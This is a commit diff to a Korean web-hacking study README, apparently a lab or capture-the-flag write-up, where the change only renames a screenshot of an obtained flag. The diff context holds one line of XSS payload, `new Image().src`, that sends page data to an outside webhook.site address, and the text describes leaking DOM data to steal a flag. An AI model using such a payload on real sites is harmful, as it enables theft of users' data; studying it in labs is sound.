

Before and after one commit to codename-123/web-hacking-study, a Markdown page: 11_week/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/11_week/README.md
+++ b/11_week/README.md
@@ -48,7 +48,7 @@ new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c="
 
 - URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.
 
-![플래그 획득](./screenshots/steal1_access_admin.png)
+![플래그 획득](./screenshots/steal1_flag.png)
 
 이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.
 
```
